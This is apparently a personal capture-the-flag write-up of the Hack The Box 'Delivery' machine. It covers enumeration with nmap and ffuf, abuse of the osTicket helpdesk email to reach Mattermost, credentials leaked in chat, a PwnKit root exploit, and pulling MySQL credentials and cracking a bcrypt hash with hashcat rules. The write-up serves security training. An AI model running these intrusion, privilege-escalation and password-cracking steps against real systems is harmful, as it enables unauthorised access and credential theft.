





==
tags: #linux #easy
=

* nmap
  #+begin_src bat
  sudo nmap -sV -sC -oA nmap/delivery.basic 10.129.26.147

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  #+end_src
* port 80
  there's a website on the default address 
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-04-29_23-19.png @ 2026-04-29 23:20:02
  

  this gives us links to 2 further applications -
  - an osticket site on =helpdesk.delivery.htb=, and
  - a mattermost application on =delivery.htb:8065=
* fuzzing
** vhost fuzzing
   #+begin_src 
  ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://delivery.htb/ -H 'Host: FUZZ.delivery.htb'

helpdesk
   #+end_src
** directory fuzzing
   #+begin_src 
   ffuf -s -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://delivery.htb/FUZZ

images
# Priority-ordered case-sensitive list, where entries were found
assets
error
   #+end_src
* obtain an email by creating an issue on osticket
  as mentioned in the [[file:d:/code/htb/academy/modules/attacking-common-applications/osticket.org::*Attacking osTicket][osticket module]], let's create a ticket and ge a temporary email id
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-04-30_00-29.png @ 2026-04-30 00:29:29

* mattermost
  create an account here with the same address as above (i had to redo it, so it's different)
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-04-30_10-12.png @ 2026-04-30 10:13:18
  

  #+begin_src 
  M4YW6-7?]Lw#zLb
  #+end_src
* the ticket thread
  now, just check the ticket status with the email used for signing up and the ticket number;
  the confirmation mail from above will also have landed on this thread:
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-04-30_10-23.png @ 2026-04-30 10:23:10
  

  once we visit the link, we're able to sign into the mattermost server and read the thread
  on their =Internal= channel:
  #+begin_src 
  root:
  @developers Please update theme to the OSTicket before we go live.  Credentials to the
  server are maildeliverer:Youve_G0t_Mail!
  #+end_src
* user flag
  ssh using the creds and we get the user flag:
  #+begin_src 
  278aadd3413987c7e1fe58674bdf49f2
  #+end_src
* privesc
  =sudo -l= does not list any binaries
** sudo vuln - CVE-2021-3156
   tried [[file:d:/code/htb/academy/modules/linux-privilege-escalation/sudo.org::*overview][the baron samedit]] vuln from the academy module but it did not work; also found that
   it's not vulnerable via:
   #+begin_src bat
   sudoedit -s '\' 2>&1 | grep -q "sudoedit:" && echo "Vulnerable" || echo "Not vulnerable"

Not vulnerable
   #+end_src
** polkit vuln
   supplied the output of suid binary command to gemini and asked it for the most
   straightforward way to privesc:
   #+begin_src bat
   $ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 23288 Jan 15  2019 /usr/bin/pkexec  
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 157192 Jan 20  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount
   #+end_src
   gemini suggested looking at the polkit vuln:
   #+begin_src 
   1. pkexec (PolicyKit)
   This is the most famous one on your list due to a vulnerability called PwnKit
   (CVE-2021-4034).

   The Flaw: For years, pkexec didn't properly validate the number of command-line
   arguments. By passing a null list, an attacker could force it to read environment variables
   as commands.

   PrivEsc Potential: If this system hasn't been patched since early 2022, running a simple
   exploit script against pkexec provides an immediate root shell.
   #+end_src
   found a POC [[https://github.com/ly4k/PwnKit][here]]; and after transferring it to the target, it just worked:
   NOTE: this has been discussed in the [[file:d:/code/htb/academy/modules/linux-privilege-escalation/polkit.org::*overview][modules]], but the exploit above does not need to be
   compiled unlike the one in the module.
   #+begin_src bat
   maildeliverer@Delivery:~$ chmod +x PwnKit
   maildeliverer@Delivery:~$ ./PwnKit

   root@Delivery:~# ls
   mail.sh  note.txt  py-smtp.py  root.txt

   root@Delivery:~# cat note.txt
   I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high
   risk vulnerability I've seen several times.  The inspiration for the box is here:
   - https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c                 

   - ippsec

   root@Delivery:~# cat root.txt
   77ff5769afc3476731af58e9e3a241d5    
   #+end_src
   not sure if this is the intended path though; seems a bit too easy.
* guided mode
  ok, turns out it's not.
  #+begin_src 
  What is the password the mmuser user uses to connect to mysql
  #+end_src
  using find to look for files with names including =db= leads us to the directory where
  =mattermost= is located - but it was just a happy accident
  #+begin_src 
  $ find / -type f -iname "*db*" 2>/dev/null

<SNIP>
/opt/mattermost/client/i18n/de.d5450a7a5f9d5998c68f338b033879db.json
/opt/mattermost/client/i18n/ja.c7f5ca6d62dbff34b6db295624fcd094.json
/opt/mattermost/client/i18n/it.defd072efb8205103db7fef81387deb2.json
<SNIP>
  #+end_src
** mysql creds
   just looking inside the =/opt/mattermost= directory, we find a =config.json= file with lots of
   data; searching for =mysql= leads us to
   #+begin_src js
   "SqlSettings": {
    "DriverName": "mysql",
    "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
    "DataSourceReplicas": [],
    "DataSourceSearchReplicas": [],
    "MaxIdleConns": 20,
    "ConnMaxLifetimeMilliseconds": 3600000,
    "MaxOpenConns": 300,
    "Trace": false,
    "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
    "QueryTimeout": 30,
    "DisableDatabaseSearch": false
},
   #+end_src
   so the mysql creds are
   #+begin_src 
   mmuser:Crack_The_MM_Admin_PW
   #+end_src
** mysql
   #+begin_src bat
   mysql -u mmuser -pCrack_The_MM_Admin_PW
   #+end_src
   there's table called =Users= where hashed passwords are stored; here's the one for =root=:
   #+begin_src 
   $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
   #+end_src
   this is a bcrypt hash which is time-consuming to crack but there's a hashcat mode for it:
   #+begin_src bat
   hashcat -m 3200 root-hash.txt /usr/share/wordlists/rockyou.txt 
   #+end_src
   takes too long and nothing happens so maybe give up
*** hashcat rules
    one of the posts on mattermost talked about hashcat rules:
    #+begin_src 
   PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they
   can use hashcat rules to easily crack all variations of common words.
    #+end_src
    so maybe let's redo applying rules
    #+begin_src bat
    hashcat -m 3200 root-hash.txt /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt -r /usr/share/hashcat/rules/best64.rule
    #+end_src
    finds nothing.
*** OFFICIAL GUIDE
    ok, turns out we need to apply the rule to the the string =PleaseSubscribe=
    #+begin_src 
echo PleaseSubscribe! | hashcat -r /usr/share/hashcat/rules/best64.rule --stdout > wordlist
    #+end_src
    use this wordlist with hashcat and we get =PleaseSubscribe!21=
* ippsec
** osticket
   looks at the file structure on github and is able to download =web.config= directly:
   #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-05-04_13-52.png @ 2026-05-04 13:53:15
   
** get searchsploit exploit date
   #+begin_src bat
   searchsploit -j osticket | jq .
   #+end_src
   =j= is for json output
** filter etc/passwd for accounts with shells
   #+begin_src bat
   cat /etc/passwd | grep -v 'false\|nologin'
   #+end_src
** /dev/shm
   is temporary by default, so it's ok if you download files here and forget to delete them.
** sucrack
   uses this to bruteforce the root password by running this binary on the server (instead of
   opening the database and finding the hash etc.) against the wordlist generated by hashcat
   rules and the =PleaseSubscribe!= string
